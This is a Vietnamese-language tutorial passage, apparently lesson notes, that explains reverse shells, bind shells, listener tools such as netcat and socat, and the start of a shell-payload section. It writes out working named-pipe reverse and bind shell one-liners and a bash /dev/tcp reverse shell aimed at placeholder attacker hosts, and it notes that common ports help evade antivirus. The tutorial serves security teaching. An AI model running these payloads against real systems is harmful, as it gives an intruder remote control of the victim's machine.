







# Shells Overview
## 1. Introduction
Trong an ninh mạng, **Shell** là công cụ phổ biến được những kẻ tấn công sử dụng để điều khiển hệ thống từ xa. Đây là một mắt xích quan trọng trong chuỗi tấn công (attack chain).

**Mục tiêu học tập**
- Hiểu về **Shell** trong tấn công mạng: Nắm vững khái niệm và vai trò của Shell trong quá trình khai thác hệ thống.
- Thiết lập và sử dụng **Reverse Shell** & **Bind Shell**: Cách cấu hình và vận hành hai loại shell phổ biến nhất để kiểm soát máy mục tiêu.
- Triển khai **Web Shell**: Cách sử dụng các tệp tin mã độc (script) tải lên máy chủ web để thực thi lệnh từ xa.

**Các lưu ý quan trọng (Caveats)**
Để đảm bảo bạn hiểu rõ bản chất cốt lõi của Shell, bài học này sẽ có một số giới hạn chủ đích:
- **Không dùng Framework**: Chúng ta sẽ không sử dụng Metasploit hay các công cụ tự động tạo Shell khác. Mục tiêu là giúp bạn hiểu cách Shell hoạt động "thủ công" mà không cần sự hỗ trợ từ công cụ.
- **Hệ điều hành**: Tất cả các ví dụ trong bài học này sẽ được thực hiện trên hệ điều hành **Linux**.

## 2. Shell Overview
Shell là gì?
Về cơ bản, Shell là phần mềm đóng vai trò "người thông dịch" giữa người dùng và hệ điều hành (OS).

**Hình thức**: Có thể là giao diện đồ họa (GUI), nhưng thường là giao diện dòng lệnh (CLI) tùy thuộc vào hệ điều hành mục tiêu.

**Trong an ninh mạng**: Shell thường được hiểu là một phiên làm việc (session) mà kẻ tấn công thiết lập được sau khi xâm nhập thành công, cho phép họ ra lệnh và thực thi phần mềm từ xa.

- **Điều khiển hệ thống từ xa**: cho phép attacker thực thi những câu lệnh hoặc phần mềm điều khiển trong máy mục tiêu
- **Leo thang đặc quyền**: nếu hành động ban đầu thông qua Shell bị hạn chế, attacker có thể tìm con đường khác để nâng cao quyền hạn hoặc quyền truy cập quản trị
- **Trích xuất dữ liệu**: attacker có quyền thực thi câu lệnh thông qua một Shell đã lấy được, họ có thể đọc hoặc lấy dữ liệu từ hệ thống đó
- **Duy trì truy cập**: khi đã chiếm được Shell, attacker có thể tạo truy cập thông qua user và thông tin cá nhân hoặc đưa phần mềm backdoor vào hệ thống để có thể truy cập vào lần sau
- **Khai thác**: sau khi có Shell, attacker có thể thực hiện hành động khai thác rộng, như là triển khai mã độc, tạo tài khoản ẩn, và xóa thông tin
- **Truy cập vào những hệ thống khác trên mạng**: sử dụng máy bị chiếm quyền làm bàn đạp để xâm nhập những hệ thống khác trong mạng

## 3. Reverse Shell
### 1. Reverse Shell 
Một Reverse Shell được gọi là "connect back shell"(_kết nối shell trở lại_), là kĩ thuật phổ biến nhất để giành quyền truy cập máy khác

### 2. Reverse Shell hoạt động ra sao?
**Thiết lập **Netcat** để "lắng nghe"**
Trong bài học này chủ yếu sử dụng **Netcat**, nó hỗ trợ nhiều hệ điều hành và cho phép đọc và ghi thông qua mạng

Reverse Shell sẽ kết nối trở lại máy chủ của attacker. Máy của attacker sẽ lắng nghe kết nối, vì vậy sử dụng Netcat để nghe bằng lệnh `nc -lvnp 443`

- `-l`: lắng nghe
- `-v`: chi tiết
- `-n`: không phân giải DNS
- `-p`: port

Nhiều port có thể dùng để lắng nghe, nhưng attacker thường sử dụng những cổng phổ biến như: **53, 8080, 443, 139, 445**, bởi vì nó được gửi cùng với lưu lượng truy cập hợp lệ nên có thể bypass, lách được những phần mềm Anti Virus

**Gaining Reverse Shell Access**(_Chiếm quyền truy cập RS_)
Khi thiết lập xong **Listener**, attacker sẽ thực hiện chiếm Shell bằng Shell Payload. Payload này thường được khai thác từ những lỗ hổng đã biết hoặc hệ thống đã bị truy cập trái phép bởi attacker và thực thi lệnh hệ thống thông qua mạng. Có rất nhiều, đa dạng payload, tùy thuộc vào OS của hệ thống mục tiêu. Chúng ta có thể tìm hiểu thêm [ở đây](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Một ví dụ về RS, cùng phần tích một RS có tên là **Pipe Reverse Shell**

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

- `rm -f /tmp/f`: xóa đường ống **/tmp/f** để chắc có thể chắn chắn tạo được Shell ở bước sau và không gây lỗi phát sinh
- `mkfifo /tmp/f`: tạo đường ống có tên là `/tmp/f` với thể loại là FIFO(First In, First Out), đường ống này cho phép thực thi 2 chiều
- `cat /tmp/f`: đọc nội dung trong đường ống, sau đó truyền qua `bash -i 2>&1`
- `bash -i 2>&1`: output của `cat` được dẫn sang lệnh `bash -i` cho phép attacker thực hiện tương tác dòng lệnh. `2>&1` chuyển hướng error qua đầu ra chuẩn, có nghĩa là nó được gửi lại cho attacker
- `nc attacker_IP port >/tmp/f`: đây là một phần output của shell qua `nc` đến địa chỉ IP của attacker trên port cụ thể đã thiết lập **listener**
- `>/tmp/f`: phần này gửi output của câu lệnh trở lại pipe, cho phép truyền 2 chiều

Payload trên có thể thực hiện shell kết nối tới listener xác định thông qua mạng

**Attacker nhận được Shell**
Khi một payload được thực thi, attacker sẽ nhận được RS, như hình bên dưới chúng thực thi những câu lệnh như đang ngồi trước máy tính của nạn nhân

Output của hình ảnh trên cho thấy kết nối từ `10.10.13.37` là địa chỉ của máy nạn nhân

## 4. Bind Shell(_Shell liên kết_)
### 1. Bind Shell là gì?
Một Bind Shell sẽ gắn một port trên hệ thống bị xâm nhập và lắng nghe một kết nối từ bên ngoài, khi có kết nối tới, nó mở một shell, vì vậy attacker có thể điều khiển, thực thi câu lệnh

Cách này được sử dụng trong trường hợp máy nạn nhân không cho phép kết nối ra bên ngoài, nhưng nó ít phổ biến hơn khi nó cần lắng nghe để nhận kết nối từ bên ngoài vào, dễ bị phát hiện bởi hệ thống bảo mật

### 2. Bind Shell hoạt động như thế nào?
**Cấu hình Bind Shell trên máy nạn nhân**

Có thể tạo một Bind Shell như ví dụ dưới đây:

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

- Tương tự Reverse Shell, những lệnh `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f` đều hoạt động tương tự
- `nc -l 0.0.0.0 8080 > /tmp/f`: `-l` dùng để lắng nghe trên cổng 8080 và chuyển hướng ra pipe `/tmp/f`

**Cấu hình trên máy attacker**
Cấu hình:

`nc -nv victim_ip 8080`
- `-n`: vô hiệu hóa việc phân giải DNS
- `-v`: verbose (chi tiết)

Sau khi kết nối, ta có thể lấy được shell và thực thi câu lệnh

## 5. Shell Listener
RS sẽ kết nối từ nạn nhân tới attacker. Tiện ích như Netcat sẽ xử lí kết nối và cho phép attacker tương tác với shell, nhưng netcat không phải là tiện ích duy nhất cho phép chúng ta làm vậy

### 1. Rlwrap
Nó là một tiện ích nhỏ sử dụng thư viện GNU readline cung cấp trình soạn thảo và lịch sử lệnh

Ví dụ:

Lệnh trên sử dụng `rlwrap` để "bao bọc" lấy `ncat` cho phép ncat có thể sử dụng các phím tắt đặc trưng(`ctrl + c`, ...) hay các dấu mũi tên

### 2. Ncat
Ncat là một phiên bản cao cấp hơn của Netcat được phân phối bởi NMAP. Nó cung cấp nhiều tính năng như encryption(`SSL`, ...)

### 3. Socat
Nó là một tiện ích cho phép tạo sockets kết nối giữa 2 nguồn dữ liệu, trong trường hợp dưới đây là 2 host

`-d` hiện ra output chi tiết của tiến trình, `-d -d` sẽ chi tiết hơn nữa
`TCP-LISTEN:443` tạo listener trên port `443`, tạo 1 server sockets cho kết nối tới
`STDOUT` hướng hướng ouput đến thiết bị cuối

## 6. Shell Payloads
Shell Payload có thể là một dòng lệnh hoặc một script nó mở ra Shell để máy attacker có thể kết nối vào như Bind Shell hoặc gửi kết nối như RS

Những payloads dưới đây sử dụng trong Linux đê mở Shell thông qua những RS phổ biến

### 1. Bash
**Normal Bash RS**
`bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1` 

